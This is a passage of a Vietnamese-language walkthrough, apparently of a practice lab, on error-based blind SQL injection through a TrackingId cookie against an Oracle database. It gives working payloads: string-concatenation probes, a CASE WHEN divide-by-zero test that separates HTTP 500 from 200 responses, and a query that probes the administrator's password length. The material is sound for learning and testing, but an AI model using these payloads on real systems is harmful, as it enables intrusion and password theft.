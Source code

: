 ```sql
Truy vẫn đúng sẽ phải như sau:
select * from NameTable where TrackingId='1llcoGOwdnKq7yLT'||''
Sử dụng nối chuỗi 1llcoGOwdnKq7yLT và chuỗi rỗng ''
```
![](img/8.png)
<h4>Nhận xét</h4>
Khi cú pháp lỗi server sẽ trả về 500, cú pháp đúng sẽ trả về 200. Dựa vào điểm nhận dạng này có thể sử dụng kỹ thuật blind.

---
<h3>Khai thác</h3>

Lợi dụng có thể nối chuỗi, ta có payload sau:
```sql
select * from NameTable where TrackingId='1llcoGOwdnKq7yLT'||(select '' from dual)||''
Với TrackingId='1llcoGOwdnKq7yLT'||(select '' from dual)||'
```
Khi đó:

![](../images/web/sql/cheatsheet/9.png)

Sử dụng câu lệnh điều kiện <b>case</b>
```sql
trackingId='1llcoGOwdnKq7yLT'||(select case when(1=1) then to_char(1/0) else '' end from dual)||'
```
khi điều kiện <b>when(1=1)</b> đúng chuỗi <b>to_char(1/0)</b> được trả về, tuy nhiên 1 không chia được cho 0 nên <b>to_char(1/0)</b> sẽ bị lỗi với <b>statuscode = 500</b>. Nếu điều kiện when sai chuỗi rỗng '' được trả về với <b>statuscode = 200</b>.

![](../images/web/sql/cheatsheet/10.png)

<h3>Tiêm điều kiện kiểm tra độ dài password vào when</h3>

```sql
TrackingId=FLlU53TriGta5uwA'||(select case when length(password)>1 then to_char(1/0) else '' end from users where username='administrator')||'
```
![](../images/web/sql/cheatsheet/11.png)
